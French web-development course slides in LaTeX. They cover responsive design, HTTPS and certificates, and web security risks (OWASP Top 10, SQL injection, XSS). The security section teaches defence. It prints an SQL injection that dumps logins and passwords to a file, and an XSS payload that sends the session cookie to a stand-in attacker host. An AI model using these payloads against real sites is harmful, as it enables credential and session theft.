\section{Site adaptatif ?}\label{site-adaptatif}}

\begin{itemize}
\tightlist
\item
  Surfer depuis : PC, mobiles, tablettes, tv, \ldots{}
\item
  UX : navigation avec un minimum de zoom, pan, scroll
\item
  S'adapter aux spécifités des appareils

  \begin{itemize}
  \tightlist
  \item
    orientation
  \item
    taille caractères
  \item
    modes d'interaction (ex: tactile, hover, \ldots)
  \item
    \ldots{}
  \end{itemize}
\item
  1 seul site à gérer : m.cool.com ni de cool.com/mobile
\item
  Le même contenu pour tous
\item
  Souvent basé sur la largeur de l'écran
\item
  CSS3
\item
  \emph{Responsive Web Design} (1),
  \href{https://alistapart.github.io/code-samples/responsive-web-design/ex/ex-site-FINAL.html}{Exemple}
\end{itemize}

\hypertarget{techniques}{%
\section{Techniques}\label{techniques}}

\begin{itemize}
\tightlist
\item
  Media queries : Taille de l'écran (ou sortie)
\item
  UNITES RELATIVES
\item
  Fonts : Dimensions en em
\item
  Fluid Grids : Disposition et taille des éléments en \%
\item
  Flexible images (and media) : Taille des médias en \%
\item
  Autres considérations

  \begin{itemize}
  \tightlist
  \item
    Adaptatif avec
    \href{https://blog.atolcd.com/adaptive-design-versus-responsive-design/}{grilles
    fixes}
  \item
    \href{https://browserdiet.com/}{Performances} : tps chargement,
    requêtes inutiles, \ldots{}
  \item
    Transitions CSS
  \item
    \ldots{}
  \end{itemize}
\item
  \href{https://webdesignerwall.com/tutorials/responsive-design-in-3-steps}{Exemple}
\end{itemize}

\hypertarget{media-queries7}{%
\section{\texorpdfstring{\href{https://developer.mozilla.org/fr/docs/CSS/Media_queries}{Media
Queries}}{Media Queries}}\label{media-queries7}}

\begin{itemize}
\tightlist
\item
  media type :
  \textenglish{\texttt{all,\ screen,\ print,\ tv,\ braille,\ handheld,\ ...}}
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{\textless{}link}\OtherTok{ rel=}\StringTok{"stylesheet"}\OtherTok{ type=}\StringTok{"text/css"}\OtherTok{ href=}\StringTok{"style.css"}\OtherTok{ media=}\StringTok{"screen"} \KeywordTok{/\textgreater{}}
\KeywordTok{\textless{}link}\OtherTok{ rel=}\StringTok{"stylesheet"}\OtherTok{ type=}\StringTok{"text/css"}\OtherTok{ href=}\StringTok{"printfriendly.css"}\OtherTok{ media=}\StringTok{"print"} \KeywordTok{/\textgreater{}}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  media query

  \begin{enumerate}
  \def\labelenumi{\arabic{enumi}.}
  \tightlist
  \item
    dans élément link
  \end{enumerate}

  \begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{\textless{}link}\OtherTok{ rel=}\StringTok{"stylesheet"}\OtherTok{ type=}\StringTok{"text/css"}\OtherTok{ media=}\StringTok{"screen and (max{-}device{-}width: 800px)"} 
\OtherTok{href=}\StringTok{"style800.css"} \KeywordTok{/\textgreater{}}
\end{Highlighting}
\end{Shaded}

  \end{english}

  \begin{enumerate}
  \def\labelenumi{\arabic{enumi}.}
  \setcounter{enumi}{1}
  \tightlist
  \item
    dans une feuille de style
  \end{enumerate}

  \begin{english}

\begin{Shaded}
\begin{Highlighting}[]
    \PreprocessorTok{\#nav}\NormalTok{ \{}\KeywordTok{float}\NormalTok{: }\DecValTok{right}\OperatorTok{;}\NormalTok{\}}
            \PreprocessorTok{\#nav}\NormalTok{ ul \{}\KeywordTok{list{-}style}\NormalTok{: }\DecValTok{none}\OperatorTok{;}\NormalTok{\}}
        \ImportTok{@media} \DecValTok{screen} \KeywordTok{and}\NormalTok{ (}\KeywordTok{min{-}width}\NormalTok{: }\DecValTok{400}\DataTypeTok{px}\NormalTok{) }\KeywordTok{and}\NormalTok{ (}\KeywordTok{orientation}\NormalTok{: }\DecValTok{portrait}\NormalTok{)}
\NormalTok{            \{}
                    \PreprocessorTok{\#nav}\NormalTok{ li \{}\KeywordTok{float}\NormalTok{: }\DecValTok{right}\OperatorTok{;} \KeywordTok{margin}\NormalTok{: }\DecValTok{0} \DecValTok{0} \DecValTok{0} \DecValTok{.5}\DataTypeTok{em}\OperatorTok{;} \KeywordTok{border}\NormalTok{:}\DecValTok{1}\DataTypeTok{px} \DecValTok{solid} \ConstantTok{\#000000}\OperatorTok{;}\NormalTok{\}}
\NormalTok{            \}}
        \ImportTok{@media} \DecValTok{screen} \KeywordTok{and}\NormalTok{ (}\KeywordTok{min{-}width}\NormalTok{: }\DecValTok{800}\DataTypeTok{px}\NormalTok{)}
\NormalTok{            \{}
                \PreprocessorTok{\#nav}\NormalTok{ \{ }\KeywordTok{width}\NormalTok{: }\DecValTok{200}\DataTypeTok{px}\OperatorTok{;}\NormalTok{ \}}
                   \PreprocessorTok{\#nav}\NormalTok{ li \{}\KeywordTok{float}\NormalTok{: }\DecValTok{left}\OperatorTok{;} \KeywordTok{margin}\NormalTok{: }\DecValTok{0} \DecValTok{0} \DecValTok{0} \DecValTok{.5}\DataTypeTok{em}\OperatorTok{;} \KeywordTok{border}\NormalTok{: }\DecValTok{none}\OperatorTok{;}\NormalTok{\}}
\NormalTok{            \}}
\end{Highlighting}
\end{Shaded}

  \end{english}

  \begin{enumerate}
  \def\labelenumi{\arabic{enumi}.}
  \setcounter{enumi}{2}
  \tightlist
  \item
    Règle CSS import
  \end{enumerate}

  \begin{english}

\begin{Shaded}
\begin{Highlighting}[]
    \ImportTok{@import} \FunctionTok{url(}\StringTok{style600min.css}\FunctionTok{)} \DecValTok{screen} \KeywordTok{and}\NormalTok{ (}\KeywordTok{min{-}width}\NormalTok{: }\DecValTok{600}\DataTypeTok{px}\NormalTok{)}\OperatorTok{;}
\end{Highlighting}
\end{Shaded}

  \end{english}
\end{itemize}

\hypertarget{media-queries7-1}{%
\section{\texorpdfstring{\href{https://developer.mozilla.org/fr/docs/CSS/Media_queries}{Media
Queries}}{Media Queries}}\label{media-queries7-1}}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{    width, height, device{-}width, device{-}height, orientation, aspect{-}ratio, }
\NormalTok{    device{-}aspect{-}ratio, color, color{-}index, monochrome, resolution, scan, grid}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  Règles CSS selon medium (souvent min-, max-width)
\item
  Opérateurs : only, not, and
\item
  Au moins 3 layouts : mobile, tablet, desktop
\item
  Resolution breakpoints : 320, 480, 600, 768, 1024, 1200px
\item
  Souvent ces règles sont utilisées pour :

  \begin{itemize}
  \tightlist
  \item
    agrandir la taille du texte
  \item
    agrandir la taille des zones cliquables (utilisation au doigt)
  \item
    faire passer le contenu sur une seule colonne
  \item
    masquer ou afficher des éléments spécifiques
  \item
    ajuster les dimensions et marges
  \end{itemize}
\item
  Attention à l'ordre de chargement
\end{itemize}

\hypertarget{meta-tag-viewport8}{%
\section{\texorpdfstring{Meta Tag
\href{http://blog.javierusobiaga.com/stop-using-the-viewport-tag-until-you-know-ho}{viewport}}{Meta Tag viewport}}\label{meta-tag-viewport8}}

\begin{itemize}
\tightlist
\item
  Introduit pour
  \href{https://developer.apple.com/library/content/documentation/AppleApplications/Reference/SafariWebContent/UsingtheViewport/UsingtheViewport.html}{iPhone},
  puis standard de fait

  \begin{itemize}
  \tightlist
  \item
    Par défaut, l'affichage est réduit (980px affichés sur écran 320px)
  \item
    Meta tag viewport permet de changer ce ratio
  \end{itemize}
\item
  viewport : display area ≠ rendering surface
\item
  Mobiles : viewport \textgreater{} écran (iphone 3 : v:980 / é:320)
\item
  Media queries comparent au viewport
\item
  Mise à jour du viewport à la taille de l'écran nécessaire :
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{\textless{}meta}\OtherTok{ name=}\StringTok{"viewport"}\OtherTok{ content=}\StringTok{"width=device{-}width; initial{-}scale=1.0"}\KeywordTok{\textgreater{}}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{ruxe9sultat-cible-contexte}{%
\section{Résultat = Cible / Contexte}\label{ruxe9sultat-cible-contexte}}

\begin{figure}
\centering

\includegraphics{src/img/target-context.png}
\caption{Target / Context}
\end{figure}

\hypertarget{texte}} dans élément html
  (16px/défaut)
\item
  \textenglish{\texttt{1em\ :\ font-size:100\%}} dans élément courant
\item
  Conversion px -\textgreater{} em :
  \textenglish{\texttt{result\ =\ target/context}}

  \begin{itemize}
  \tightlist
  \item
    ne pas arrondir
  \item
    laisser le rapport en commentaire
  \end{itemize}
\end{itemize}

\hypertarget{fluid-grids}{%
\section{Fluid Grids}\label{fluid-grids}}

\begin{itemize}
\tightlist
\item
  Layout basé sur une grille en pixel
\item
  Conversion px -\textgreater{} \% : \textbf{result = target/context}

  \begin{itemize}
  \tightlist
  \item
    ne pas arrondir
  \item
    laisser le rapport en commentaire
  \end{itemize}
\item
  Appliqué au style des divs :
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{width, margin, padding, background{-}position, ...}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{responsive-images}{%
\section{Responsive Images}\label{responsive-images}}

\begin{itemize}
\tightlist
\item
  Nouveautés de HTML 5

  \begin{itemize}
  \tightlist
  \item
    Eléments \textenglish{\texttt{\textless{}picture\textgreater{}}},
    \textenglish{\texttt{\textless{}source\textgreater{}}}
  \item
    Attributs \textenglish{\texttt{srcset}} et
    \textenglish{\texttt{sizes}}
  \end{itemize}
\item
  \href{http://www.smashingmagazine.com/2014/05/14/responsive-images-done-right-guide-picture-srcset/}{Besoins}

  \begin{itemize}
  \tightlist
  \item
    Écrans haute densité : \textenglish{\texttt{srcset}}
  \item
    Taille variable : \textenglish{\texttt{srcset}} et
    \textenglish{\texttt{sizes}}
  \item
    \href{http://ericportis.com/etc/smashing-mag-picture-examples/art-direction.html}{Substitution}
    et modification layout :
    \textenglish{\texttt{\textless{}picture\textgreater{},\ \textless{}source\textgreater{}}}
  \item
    Choix formats de fichiers
    \textenglish{\texttt{\textless{}picture\textgreater{}}}
  \end{itemize}
\item
  \href{https://css-tricks.com/responsive-images-youre-just-changing-resolutions-use-srcset/}{Différences}
  entre \textenglish{\texttt{\textless{}picture\textgreater{}}} et
  \textenglish{\texttt{srcset}}
\item
  \href{http://www.hteumeuleu.fr/attribut-srcset-images-responsive/}{Exemple}
  en français
\end{itemize}

\hypertarget{flexible-images}{%
\section{Flexible images}\label{flexible-images}}

\begin{itemize}
\tightlist
\item
  Eviter qu'une image ne déborde de son conteneur

  \begin{itemize}
  \tightlist
  \item
    La réduire
  \end{itemize}

  \begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{img, embed, object, video\{ max{-}width: 100\%; \}}
\end{Highlighting}
\end{Shaded}

  \end{english}

  \begin{itemize}
  \tightlist
  \item
    La découper
  \end{itemize}

  \begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{  .feature \{ overflow: hidden; \}}
\NormalTok{  .feature img \{ display: block; max{-}width: auto; \}}
\end{Highlighting}
\end{Shaded}

  \end{english}
\item
  Pas de standard pour servir différentes tailles de fichier
\item
  Quelques idées recensées par \emph{Smashing Magazine} (2)
\end{itemize}

\hypertarget{outils}{%
\section{Outils}\label{outils}}

\begin{itemize}
\tightlist
\item
  Tester

  \begin{itemize}
  \tightlist
  \item
    Simulateur mobile des devtools, largeur browser
  \item
    \href{https://seesparkbox.com/foundry/media_query_bookmarklet}{bookmarklet}
    pour afficher les media queries
  \item
    mais surtout tester sur mobile
  \end{itemize}
\item
  Et Après ?
  \href{http://www.lukew.com/resources/mobile_first.asp}{MOBILE FIRST},
  \href{http://offlinefirst.org/}{OFFLINE FIRST},
  \href{https://developers.google.com/web/progressive-web-apps/}{PWA}
\item
  framework ou from scratch ?
\end{itemize}

\hypertarget{ruxe9fuxe9rences}{%
\section{Références}\label{ruxe9fuxe9rences}}

\begin{itemize}
\tightlist
\item
  Exemples

  \begin{itemize}
  \tightlist
  \item
    \href{http://responsivewebdesign.com/robot/}{Site} support du
    \href{https://abookapart.com/products/responsive-web-design}{livre}
    d'Ethan Marcotte
  \item
    \href{http://mediaqueri.es/}{mediaqueri.es}
  \item
    \href{http://thenextweb.com/dd/2013/01/13/30-new-inspiring-responsive-design-websites/}{thenextweb}
  \item
    \href{https://designshack.net/articles/css/20-amazing-examples-of-using-media-queries-for-responsive-web-design/}{designshack}
  \end{itemize}
\item
  Plus loin\ldots{}

  \begin{itemize}
  \tightlist
  \item
    \href{http://johnpolacek.github.io/scrolldeck.js/decks/responsive/}{Généralités}
  \item
    \href{http://www.quirksmode.org/blog/archives/2010/09/combining_meta.html}{viewport
    et media queries}
  \item
    D'autres techniques, liste de Smashing magazine (2)
  \item
    Améliorer la
    \href{http://csswizardry.com/2013/01/front-end-performance-for-web-designers-and-front-end-developers/}{performance}
  \item
    \href{https://24ways.org/2014/making-sites-more-responsive-responsibly/}{Making
    sites more responsive, responsibly}

    \begin{itemize}
    \tightlist
    \item
      Workshop
      \href{https://www.slideshare.net/caillou/2013-03-webtuesday-responsive}{Pierre
      Spring} 26.02.13
    \end{itemize}
  \end{itemize}
\end{itemize}

\hypertarget{pratique}{%
\section{Pratique}\label{pratique}}

\begin{itemize}
\tightlist
\item
  Tester les exemples sur un mobile
\item
  Comprendre les sources
\item
  Présentation adaptative de votre équipe de projet
\end{itemize}

\hypertarget{sources}{%
\section*{Sources}\label{sources}}
\addcontentsline{toc}{section}{Sources}

\hypertarget{refs}{}
\begin{cslreferences}
\leavevmode\hypertarget{ref-alistapart:rwd}{}%
1. MARCOTTE, Ethan. Responsive Web Design. {[}en~ligne{]}. 25 mai 2010.
{[}Consulté~le~6~novembre~2017{]}. Disponible à l'adresse~:
\url{https://alistapart.com/article/responsive-web-design}

\leavevmode\hypertarget{ref-smashing:rwd}{}%
2. THE SMASHING EDITORIAL. Responsive Web Design Techniques, Tools and
Design Strategies. {[}en~ligne{]}. 22 juillet 2011.
{[}Consulté~le~6~novembre~2017{]}. Disponible à l'adresse~:
\url{https://www.smashingmagazine.com/2011/07/responsive-web-design-techniques-tools-and-design-strategies/}
\end{cslreferences}


\chapter{ HTTPS}
\hypertarget{suxe9curiser-un-site-web}{%
\section{Sécuriser un site web}\label{suxe9curiser-un-site-web}}

\begin{itemize}
\tightlist
\item
  Authentification du serveur

  \begin{itemize}
  \tightlist
  \item
    Assurer que le serveur est celui qu'il prétend être
  \end{itemize}
\item
  Intégrité des données

  \begin{itemize}
  \tightlist
  \item
    Assurer que les données reçues sont celles qui ont été envoyées
  \end{itemize}
\item
  Confidentialité des données

  \begin{itemize}
  \tightlist
  \item
    Eviter que des tiers ne puissent voir les données
  \end{itemize}
\item
  Authentification du client (optionnelle)

  \begin{itemize}
  \tightlist
  \item
    Assurer que le client est celui qu'il prétend être
  \end{itemize}
\item
  Pour un site web, ces services sont fournis par https

  \begin{itemize}
  \tightlist
  \item
    HTTPS : HTTP sécurisé par SSL/TLS, par défaut sur le port 443
  \end{itemize}
\end{itemize}

\hypertarget{secure-socket-layer-transport-layer-security}{%
\section{Secure Socket Layer --\textgreater{} Transport Layer
Security}\label{secure-socket-layer-transport-layer-security}}

\begin{itemize}
\tightlist
\item
  Conçu par Netscape (v2.0 en 1994, v3.0 en 1996)
\item
  Brevet racheté par l'IETF : TLS v1.0 en 1999 (SSL 3.1), v1.3 en 2018
\item
  Couche Application :

  \begin{itemize}
  \tightlist
  \item
    Entre les couches transport et application
  \item
    Pas besoin de modifier la pile TCP/IP
  \end{itemize}
\item
  Possibilité de sécuriser d'autres protocoles :

  \begin{itemize}
  \tightlist
  \item
    HTTP, SMTP, SIP, \ldots{}
  \end{itemize}
\item
  Services offerts :

  \begin{itemize}
  \tightlist
  \item
    Authentification serveur + intégrité données
  \item
    Confidentialité des données
  \item
    Authentification optionnelle du client
  \end{itemize}
\item
  Certificats (clé publique associée au certificat)
\end{itemize}

\hypertarget{ruxf4le-dun-certificat}{%
\section{Rôle d'un certificat}\label{ruxf4le-dun-certificat}}

\begin{itemize}
\tightlist
\item
  Garantir le lien entre une entité physique et une entité numérique :

  \begin{itemize}
  \tightlist
  \item
    Intégrité des données
  \item
    Authentification
  \item
    Confidentialité
  \end{itemize}
\item
  Document contenant une identité et une signature numérique
\item
  Utilisations courantes : https, mails
\item
  Délivré par une autorité de certification
\item
  Certificats clients
\end{itemize}

\hypertarget{autorituxe9-de-certification}{%
\section{Autorité de Certification}\label{autorituxe9-de-certification}}

\begin{itemize}
\tightlist
\item
  Tiers de confiance

  \begin{itemize}
  \tightlist
  \item
    enregistrée et certifiée par des autorités publiques ou de
    gouvernance de l'Internet
  \end{itemize}
\item
  Rôle :

  \begin{itemize}
  \tightlist
  \item
    Vérifier et garantir les informations sur l'entité
  \item
    Emettre, délivrer et révoquer les certificats
  \item
    Leur assigner une période de validité
  \item
    Maintenir la liste des certificats valides/révoqués
  \end{itemize}
\item
  Certificats auto-signés :

  \begin{itemize}
  \tightlist
  \item
    usage interne
  \item
    pas de tiers de confiance
  \end{itemize}
\end{itemize}

\hypertarget{contenu-dun-certificat-x509}{%
\section{Contenu d'un certificat
X509}\label{contenu-dun-certificat-x509}}

\begin{itemize}
\tightlist
\item
  version de X.509 (v3, depuis 1996)
\item
  numéro de série du certificat
\item
  algorithme de chiffrement utilisé pour signer le certificat
\item
  nom de l'AC émettrice
\item
  informations sur la clé publique
\item
  dates de début et fin de validité du certificat
\item
  clé publique du propriétaire du certificat
\item
  signature de l'émetteur du certificat (thumbprint)
\item
  \ldots{}
\end{itemize}

\hypertarget{composants-dune-pki1}{%
\section{\texorpdfstring{Composants d'une
\href{https://en.wikipedia.org/wiki/Public_key_infrastructure}{PKI}}{Composants d'une PKI}}\label{composants-dune-pki1}}

CA : Autorité de certification - VA : Autorité de validation - RA :
Autorité d'enregistrement

\includegraphics{src/img/Public-Key-Infrastructure.png}

\hypertarget{scuxe9nario-simplifiuxe9-de-connexion-https}{%
\section{Scénario simplifié de connexion
HTTPS}\label{scuxe9nario-simplifiuxe9-de-connexion-https}}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  Le client demande une page sécurisée
\item
  Le serveur émet sa clé publique et son certificat
\item
  Le client vérifie la validité du certificat (et qu'il correspond au
  site)
\item
  Le client utilise la clé publique pour chiffrer la clé symétrique (CS)
  utilisée ensuite
\item
  Le serveur déchiffre cette CS (avec sa clé privée) et l'utilise pour
  décoder la requête HTTPS
\item
  Le serveur répond à la requête en chiffrant avec la CS
\item
  Le navigateur décode la réponse avec la CS
\end{enumerate}

\begin{itemize}
\tightlist
\item
  En
  \href{https://tiptopsecurity.com/how-does-https-work-rsa-encryption-explained/}{images},
  \href{http://software-engineer-tips-and-tricks.blogspot.ch/2012/08/ssl-in-pictures.html?view=sidebar}{ou
  ici} ou en
  \href{https://www.youtube.com/embed/iQsKdtjwtYI?rel=0}{slides}
\item
  2-5 en TCP
\end{itemize}

\hypertarget{duxe9ploiement}{%
\section{Déploiement}\label{duxe9ploiement}}

\begin{itemize}
\tightlist
\item
  Installer OpenSSL
\item
  (Créer son autorité de certification si autosigné)
\item
  Obtenir le certificat et la clé privée du serveur
\item
  Configurer httpd. Pour Apache :

  \begin{itemize}
  \tightlist
  \item
    virtual host (port 443), ssl.conf, (ports.conf)
  \end{itemize}
\item
  Création de l'arborescence sécurisée
\item
  Démarrage serveur
\item
  OU BIEN utiliser \href{https://letsencrypt.org/}{Let's encrypt}
\item
  OU BIEN utiliser un serveur pré-configuré comme
  \href{https://caddyserver.com/}{Caddy}
\end{itemize}

\hypertarget{https-aujourdhui}{%
\section{HTTPS Aujourd'hui}\label{https-aujourdhui}}

\begin{itemize}
\tightlist
\item
  Il n'y a plus de bonne raison d'utiliser HTTP
\item
  TLS toujours utilisé avec HTTP2 et HTTP3
\item
  HTTP2 et 3 minimisent et accélèrent les échanges
\item
  Certificats gratuits
\item
  Mise en place simplifiée
\end{itemize}

\hypertarget{ressources}{%
\section{Ressources}\label{ressources}}

\begin{itemize}
\tightlist
\item
  \href{https://wiki.alphanet.ch/Ateliers/PresentationSecurityParty}{Security
  Party 23.10.2009}
\item
  \href{http://www.sebsauvage.net/comprendre/ssl/}{SebSauvage}
\item
  HTTPS en détails :

  \begin{itemize}
  \tightlist
  \item
    Diagramme de séquence
    \href{https://www.eventhelix.com/networking/SSL.pdf}{HTTPS}
  \item
    Diagramme de séquence
    \href{https://www.eventhelix.com/networking/ssl-tls/https-ssl-tls-session-for-spdy.pdf}{SPDY}
  \item
    \href{https://security.stackexchange.com/questions/20803/how-does-ssl-tls-work/20847\#20847}{SSL}
    en détails
  \end{itemize}
\item
  Durée de vie de la
  \href{https://security.stackexchange.com/questions/55454/how-long-does-an-https-symmetric-key-last}{Clé
  Symétrique}
\item
  \href{https://www.win.tue.nl/hashclash/rogue-ca/}{Faux Certificat}
\item
  Autorités de certification :

  \begin{itemize}
  \tightlist
  \item
    \href{https://letsencrypt.org/}{Let's Encrypt}
  \item
    \href{http://www.cacert.org/}{CA Cert}
  \item
    \href{https://www.sslforfree.com/}{SSLforFree}
  \end{itemize}
\item
  Différences TLS / SSH :
  \href{http://www.snailbook.com/faq/ssl.auto.html}{Snailbook},
  \href{http://security.stackexchange.com/questions/1599/what-is-the-difference-between-ssl-vs-ssh-which-is-more-secure}{StackExchange}
\end{itemize}

\hypertarget{sources}{%
\section{Sources}\label{sources}}


\chapter{ Risques}
\hypertarget{risque}{%
\section{Risque}\label{risque}}

\begin{itemize}
\tightlist
\item
  Faille ou bug permettant d'altérer le fonctionnement
\item
  Un attaquant pourra :

  \begin{itemize}
  \tightlist
  \item
    Modifier le fonctionnement
  \item
    Accéder ou modifier les données
  \end{itemize}
\item
  Présence possible à tous les niveaux d'un système

  \begin{itemize}
  \tightlist
  \item
    Application
  \item
    Serveur et Client
  \item
    OS
  \item
    SGBD, \ldots{}
  \end{itemize}
\item
  Responsabilité des développeurs :

  \begin{itemize}
  \tightlist
  \item
    OS, serveurs, langages : patches rapidement disponibles
  \item
    nos applications : \textbf{c'est nous qui en sommes responsables}
  \end{itemize}
\end{itemize}

\hypertarget{owasp26}{%
\section{\texorpdfstring{\href{https://owasp.org/}{OWASP}}{OWASP}}\label{owasp26}}

\begin{itemize}
\tightlist
\item
  Open Web Application Security Project
\item
  Fondation pour améliorer la sécurité des webapps
\item
  Fondée en 2004, internationale, sans but lucratif
\item
  Référence principale dans le domaine
\item
  Propose :

  \begin{itemize}
  \tightlist
  \item
    Top 10 (web et
    \href{https://owasp.org/www-project-mobile-top-10/}{mobile}) :
    \href{https://owasp.org/Top10/\#methodology}{Méthode},
    \href{https://www.first.org/cvss/calculator/3.0}{CVSS},
    \href{https://cwe.mitre.org/top25/archive/2022/2022_cwe_top25.html}{CWE}
  \item
    Grand communauté d'experts
  \item
    Formation, documentation et ressources
  \item
    Outils d'audit, de tests et de formation
  \end{itemize}
\end{itemize}

\hypertarget{top-109-owasp-2021-fr27---historique30}{%
\section{\texorpdfstring{\href{https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project}{Top
10} OWASP 2021 (\href{https://owasp.org/Top10/fr/}{fr} -
\href{https://www.hahwul.com/cullinan/history-of-owasp-top-10/}{historique})}{Top 10 OWASP 2021 (fr - historique)}}\label{top-109-owasp-2021-fr27---historique30}}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  Contrôle d'accès défaillants
\item
  Défaillances cryptographiques
\item
  Injections
\item
  Conception non sécurisée
\item
  Mauvaise configuration de sécurité
\item
  Composants vulnérables et obsolètes
\item
  Identification \& Authentification de mauvaise qualité
\item
  Manque d'intégrité des données et du logiciel
\item
  Carences des systèmes de contrôle et de journalisation
\item
  Falsification de requêtes côté serveur
\end{enumerate}

\begin{itemize}
\tightlist
\item
  Non exhaustif : ex. : risques liés à
  \href{https://cheatsheetseries.owasp.org/cheatsheets/NPM_Security_Cheat_Sheet.html}{Node
  JS}
\end{itemize}

\hypertarget{injection-de-code}{%
\section{Injection de code}\label{injection-de-code}}

\begin{itemize}
\tightlist
\item
  Données mal validées : possibilité d'exécuter du code
\item
  Passées par requêtes :

  \begin{itemize}
  \tightlist
  \item
    formulaires
  \item
    URL
  \item
    \ldots{}
  \end{itemize}
\item
  Type de code injectable : TOUS !

  \begin{itemize}
  \tightlist
  \item
    HTML
  \item
    SQL
  \item
    Javascript
  \item
    \ldots{}
  \end{itemize}
\end{itemize}

\hypertarget{injections-sql}{%
\section{Injections SQL}\label{injections-sql}}

\begin{itemize}
\tightlist
\item
  Modifier les requêtes envoyées au SGBD
\item
  Obtention d'un résultat non prévu par le développeur
\item
  Deviner la structure du code pour l'exploiter
\item
  SQL est puissant : UNION, INTO DUMPFILE, \ldots{}
\end{itemize}

\href{https://fr.wikipedia.org/wiki/Injection_SQL}{Exemples}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{SELECT}\NormalTok{ titre, num }\KeywordTok{FROM}\NormalTok{ livres }\KeywordTok{WHERE}\NormalTok{ num}\OperatorTok{=}\DecValTok{2} \KeywordTok{UNION}
\KeywordTok{SELECT}\NormalTok{ login, }\KeywordTok{password} \KeywordTok{FROM} \FunctionTok{user} \KeywordTok{INTO}\NormalTok{ DUMPFILE }\StringTok{\textquotesingle{}www/exploit.txt\textquotesingle{}}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{eviter-les-injections-sql}{%
\section{Eviter les injections SQL}\label{eviter-les-injections-sql}}

\begin{itemize}
\tightlist
\item
  N'accepter que des caractères valides
\item
  A défaut, neutraliser les caractères dangereux
\item
  Utiliser les entités HTML
\item
  Vérifications strictes dans le code
\item
  Eviter les noms prévisibles pour une appli critique
\end{itemize}

\hypertarget{cross-site-scripting-xss}{%
\section{Cross Site Scripting (XSS)}\label{cross-site-scripting-xss}}

\begin{itemize}
\tightlist
\item
  Injection de code (html et script)
\item
  Exécution par le navigateur du client
  
\includegraphics{src/img/xss.png}
\end{itemize}

\hypertarget{cross-site-scripting-xss-1}{%
\section{Cross Site Scripting (XSS)}\label{cross-site-scripting-xss-1}}

\begin{itemize}
\tightlist
\item
  Enjeux : tout ce qui est possible en JS

  \begin{itemize}
  \tightlist
  \item
    Redirection
  \item
    Lecture de cookies (session, \ldots)
  \item
    Envoi d'info à un autre serveur
  \item
    Modification du contenu de la page
  \item
    \ldots{}
  \end{itemize}
\item
  Souvent utilisé pour transmettre le cookie de session
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{\textless{}img}\OtherTok{ src=}\StringTok{"http://www.urlinexistante.com/im.jpg"}
\OtherTok{     onerror=}\StringTok{"window.location=\textquotesingle{}http://www.pirate.com/recupcookie.jsp?}
\StringTok{     cookie=\textquotesingle{}+document.cookie\textquotesingle{};"}\KeywordTok{\textgreater{}}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{types-de-xss}{%
\section{3 types de XSS}\label{types-de-xss}}

\begin{itemize}
\tightlist
\item
  Reflected XSS

  \begin{itemize}
  \tightlist
  \item
    Affichage d'une partie de la requête (recherche, erreur, \ldots)
  \end{itemize}
\item
  Stored XSS

  \begin{itemize}
  \tightlist
  \item
    Stockage dans la BDD et affichage (= exécution) par plusieurs
    clients
  \end{itemize}
\item
  DOM based XSS

  \begin{itemize}
  \tightlist
  \item
    Exécutée lors de la modification du DOM
